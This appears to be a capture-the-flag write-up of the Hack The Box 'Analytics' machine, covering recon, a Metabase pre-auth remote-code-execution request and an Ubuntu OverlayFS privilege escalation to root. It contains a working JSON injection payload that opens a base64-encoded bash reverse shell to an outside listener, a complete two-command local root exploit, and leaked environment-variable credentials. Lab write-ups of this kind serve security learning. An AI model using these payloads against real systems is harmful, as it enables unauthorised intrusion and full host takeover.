





# Analytics

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.49.201            
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-08 22:09 +08
Nmap scan report for 10.129.49.201
Host is up (0.0056s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Did a detailed scan as well:

```
$ nmap -p 80 -sC -sV --min-rate 4000 10.129.49.201  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-08 22:10 +08
Nmap scan report for 10.129.49.201
Host is up (0.0093s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `analytical.htb` to the `/etc/hosts` file before visiting the web application.

### Web Enum -> CVE-2023-38646 RCE

The website was for a company that does data analytics.


Below, there are a few names we can note:


There was also a login page, which directed me to `data.analytical.htb`.



`gobuster` and `wfuzz` didn't reveal much, so I took a look at the requests being sent in Burpsuite. Here's the POST request sent on the login.

```http
POST /api/session HTTP/1.1
Host: data.analytical.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 70
Origin: http://data.analytical.htb
Connection: close
Referer: http://data.analytical.htb/auth/login?redirect=%2F
Cookie: metabase.DEVICE=315d4277-faad-4015-a5cb-fc02ad4729e4

{"username":"admin@analytical.htb","password":"admin","remember":true}
```

We can see that `metabase` is the backend, and that it has an `/api` endpoint. Metabase has a few pre-auth RCE exploits available.



From the blog above, to determine if an instance is vulnerable, the `setup-token` variable needs to be misconfigured and not hidden. Viewing `/api/sessions/properties` for this machine verifies that the token is leaked.



Following the blog above, I just replaced the `token` and reverse shell command used in their PoC request. The `base64` encoded command is just a simple `bash` one-liner.

```http
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Content-Type: application/json
Content-Length: 820

{

    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {

        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zNi80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

After sending this, my listener port caught a reverse shell into a Docker instance.



### Env Creds -> User Shell

Within the Docker container, I checked the environment variables and found the user's password.

```
$ env
env
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=3e3bd0cfec4e
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/metabase.db
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
<TRUNCATED>
```

Afterwards, I could `ssh` in as the user `metalytics`.



## Privilege Escalation

### CVE-2023-2640 -> Root

I did some basic enumeration, like getting the OS used and what not:

```
$ uname -a 
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux

$ lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 22.04.3 LTS
Release:        22.04
Codename:       jammy
```

When googling for 'Ubuntu 22.04 jammy exploit', I found this:



The machine fits all the criterias to be vulnerable to this, so I gave the exploit a shot. I found the PoC on Reddit, and it worked.



Run these 2 commands back to back to get a `root` shell:

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*"
u/python3 -c 'import os;os.setuid(0);os.system("bash")
```



Rooted!